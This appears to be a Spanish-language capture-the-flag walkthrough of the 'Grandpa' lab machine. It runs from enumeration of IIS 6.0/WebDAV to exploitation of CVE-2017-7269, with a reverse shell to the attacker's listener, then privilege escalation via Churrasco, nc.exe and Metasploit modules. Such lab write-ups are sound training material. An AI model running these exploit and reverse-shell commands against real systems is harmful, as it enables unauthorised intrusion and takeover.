# Grandpa

Máquina windows -> ttl=127

```bash
nmap -p- --open -sCV --min-rate=5000 -n 10.129.95.233 -oN nmapResult.txt
```



```bash
whatweb http://10.129.95.233
```



- Microsoft-IIS/6.0
- MicrosoftOfficeWebServer[5.0_Pub]

- Accedemos a la web



-
```bash
gobuster dir -u http://10.129.95.233 -w /usr/share/seclists/Discovery/Web-Content/Web-Servers/IIS.txt -t 200 -x html,php,txt
```

/postinfo.html ->



/iisstart.htm -> misma pag
/_vti_txt
/_vti_inf.html
/_vti_bin/shtml.dll
/_vti_bin/shtml.dll/asdfghjkl
/_vti_bin/shtml.dll/asdfghjkl.html
/_vti_bin/shtml.dll/asdfghjkl.php
/_vti_bin/shtml.dll/asdfghjkl.txt
/_vti_bin/shtml.exe/qwertyuiop.html
/_vti_bin/shtml.exe/qwertyuiop.php
/_vti_bin/shtml.exe/qwertyuiop.txt
/_vti_bin/shtml.exe/qwertyuiop ->



y lo mismo para todas las anteriores
/trace.axd ->



/_vti_bin/ ->



- Vamos a hacer un escaneo más exaustivo del puerto 80
```bash
nmap -p80 --open -sCV -n 10.129.95.233
```



- Vemos un webdav ->



-



- Comandos



- Vamos a comprobar qué tipo de archivos podemos subir a nivel de extensiones
```bash
devtest -url http://10.129.95.233
```



No podemos subir ninguno,
Si pudieramos podriamos subir un .txt, renombrarlo a .aspx y lanzarnos una bash

_-> Nueva IP -> 10.129.72.39_
Buscaremos exploits para IIS 6.0, y encontramos uno que nos interesa de buffer iverflow
```bash
searchsploit iis 6.0
```

Como no nos convence el que hay de
*Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow*
- Buscaremos uno por nuestra cuenta y por el CVE que explota
```bash
searchsploit -w https://www.exploit-db.com/exploits/41738
```

- Nos da el enlace a exploit-db para buscar el CVE



Es la *CVE 2017-7269*



- Buscamos en google *CVE 2017-7269 github exploit*
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

- Lo que hace el exploit



Está en python, no lo dice en ningún sitio pero abriendo el código se ve

Podremos ver que el WebDav permite el comando PROPFIND con
```bash
curl -s -X OPTIONS http://10.129.72.39 -I
```



Vemos como tanto en Public como Allow está PROPFIND

- El script es en Python2. **¿Cómo distinguir python2 de python3?**



Además en python2 el *print* es
```python
print "hola"
```

Y en python3 es
```python
print("hola")
```

- Vamos a ejecutar el script
Si lo ejecutamos sin parámetros nos muestra la estructura



Nos pondremos a la escucha con
```bash
rlwrap nc -nlvp 443
```

```bash
python2 iis6_reverse_shell.py 10.129.72.39 80 10.10.17.61 443
```

nt authority\network service

## Escalada

```powershell
systeminfo
```



- Nos movemos a C:\ y vemos un directorio *Documents and Settings*
Vemos un usuario Administrador y otro Harry
- no tenemos acceso a ninguno



- Enumeramos privilegios de nuestro usuario
```powershell
whoami /priv
```



- Con juicy potato podriamos explotar el permiso *SeImpersonatePrivilege* -> Va a dar bastante por saco porque falla al ser la máquina víctima un Windows server 2003, es muy antiguo. Se usa un CLSID para arreglar el error que da el script pero este CLSID no contempla una versión tan antigua de Windows Server por lo que buscaremos otro script
Buscamos -> Windows server 2003 juicy potato privilege scalation
- Pag *binaryregion.wordpress.com* -> Churrasco.exe
- Compartir por smb, y ejecutar
- Para lanzarnos una shell deberemos compartirnos también el nc.exe con
```bash
locate nc.exe
```

y por smb a la máquina víctima igual que antes.
- Nos ponemos a la escucha con rlwrap en nuestro equipo y nos lanzamos una shell con nc.exe

**METASPLOIT**
- Vamos a hacerlo con msfconsole porque la ejpt si no va a ser xd

- Buscamos un exploit para iis 6.0
```bash
search iis 6.0
```

Encontramos uno para webdav que es lo que además tenemos
```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
```



```bash
background
```

-> meterpreter en segundo plano para cargar módulo de post explotación
```bash
sessions
```

-> ver sesiones activas, vemos la que tenemos dentro del windows



```bash
use post/multi/recon/local_exploit_suggester
```



- Seteamos la session con id 1
```bash
set SESSION 1
```

- Observamos los expoloits de privesc que nos recomienda



Probaremos por ejemplo  a buscar por windows,  server, 2003, local, exploit

- Probaremos con *ms14_070_tcpip_ioctl*
1) Volvemos al meterpreter
```bash
sessions -i 1
```

2) Buscaremos un proceso que tenga privilegios de *NT AUTHORITY* y que sea estable ->





3) Migrar hacia el proceso con PID 3338 -> *davcdata.exe*
```bash
migrate 3388
```

```bash
getuid
```

-> ahora el contexto del meterpreter es el usuario *NT AUTHORITY\NETWORK SERVICE*, el cual usaremos para escalar con el exploit *ms14_070_tcpip_ioctl*



4) Seteamos las opciones de ip y puerto local



NT AUTHORITY\NETWORK SERVICE




